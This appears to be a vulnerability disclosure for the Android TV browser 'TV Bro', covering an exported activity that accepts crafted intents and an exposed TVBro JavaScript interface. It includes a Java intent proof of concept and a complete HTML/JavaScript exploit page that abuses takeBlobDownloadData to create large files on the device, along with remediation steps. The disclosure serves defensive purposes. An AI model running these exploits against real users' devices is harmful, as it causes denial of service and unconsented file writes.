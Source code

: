 
---

## Vulnerability Report: `com.phlox.tvwebbrowser` 'TV Bro' Version <= 2.0.0

### Vulnerability: JavaScript Code Injection via Intent Handlers

---

#### **Summary**:
The `com.phlox.tvwebbrowser` application improperly handles external intents, potentially leading to Arbitrary Code Execution (ACE) via crafted URIs.

#### **Severity**:
🔴 High

#### **Details**:
The exposed `com.phlox.tvwebbrowser.activity.main.MainActivity` allows external applications to execute arbitrary JavaScript within its context. Specifically, a malicious app can invoke this activity with a specially crafted URI that contains JavaScript, leading to unwanted code execution.

##### Proof of Concept:

![poc](https://github.com/actuator/com.phlox.tvwebbrowser/assets/78701239/581c4577-3ee5-4277-8fe9-2109921a18ec)



```java
Intent intent = new Intent(Intent.ACTION_VIEW);
intent.setComponent(new ComponentName("com.phlox.tvwebbrowser", "com.phlox.tvwebbrowser.activity.main.MainActivity"));
intent.setData(Uri.parse("https://windows96.net"));
startActivity(intent);
```

#### **Common Weakness Enumeration (CWE)**:
- [CWE-94](https://cwe.mitre.org/data/definitions/94.html): Improper Control of Generation of Code ('Code Injection')

#### **Remediation Steps**:
1. **Restrict External Intent Handling**: In `AndroidManifest.xml`, ensure the `exported` attribute for the affected activity is set to `false`.
2. **URI Sanitization**: Implement a strict validation and sanitation mechanism for URIs before processing.


#### Addendum
---

The com.phlox.tvwebbrowser application exposes a JavaScript interface, namely TVBro, to its WebView component. This interface provides powerful methods that can be invoked by any web page loaded into the WebView. Such unrestricted access can lead to a variety of security risks, such as arbitrary file downloads, resource exhaustion, and potentially other undisclosed impacts.

#### Impact:

#### Resource Exhaustion:
An attacker can generate an extremely large file using the takeBlobDownloadData method which could lead to resource exhaustion and potential denial-of-service scenarios.

#### Arbitrary File Creation: 
The method allows for the creation of files with arbitrary content on the user's device without user consent.
Potential for other Exploits: Without a detailed assessment of all methods within the TVBro interface.

#### Proof of Concept:
Below is a sample payload that exploits the vulnerability by attempting to create an extremely large file:

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>TV Bro Exploit Demo</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            padding: 20px;
        }

        button {
            background-color: red;
            color: white;
            padding: 10px 20px;
            border: none;
            cursor: pointer;
        }

        #warning {
            color: red;
            font-weight: bold;
        }
    </style>
</head>

<body>

    <h1 id="warning">WARNING: Exploit Demonstration</h1>
    <p>This page demonstrates the potential risks associated with the JavaScript interface vulnerability found in the "TV Bro" application.</p>

    <h2>Exploit Details</h2>
    <p>An attacker can generate an extremely large file which can lead to resource exhaustion and potential denial-of-service scenarios on the user's device.</p>

    <button onclick="triggerExploit()">Trigger Exploit</button>

    <div id="status"></div>

    <script>
        function generateRandomBase64String(length) {
            let characters = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/';
            let result = '';
            for (let i = 0; i < length; i++) {
                result += characters.charAt(Math.floor(Math.random() * characters.length));
            }
            return result;
        }

        function triggerExploit() {
            const size = 500000; // You can adjust this as necessary
            const base64Data = generateRandomBase64String(size);
            const fileName = 'exploit.txt';
            const url = 'https://example.com/exploit'; // Replace with an appropriate URL or keep as dummy
            const mimeType = 'text/plain';

            if (window.TVBro && typeof window.TVBro.takeBlobDownloadData === 'function') {
                document.getElementById('status').innerText = "About to invoke the interface...";
                window.TVBro.takeBlobDownloadData(base64Data, fileName, url, mimeType);
                document.getElementById('status').innerText = "Invoked the interface. Waiting for a response...";
            } else {
                document.getElementById('status').innerText = "Interface not found. Are you sure you're inside the vulnerable version of TV Bro?";
            }
        }
    </script>

</body>

</html>

```html
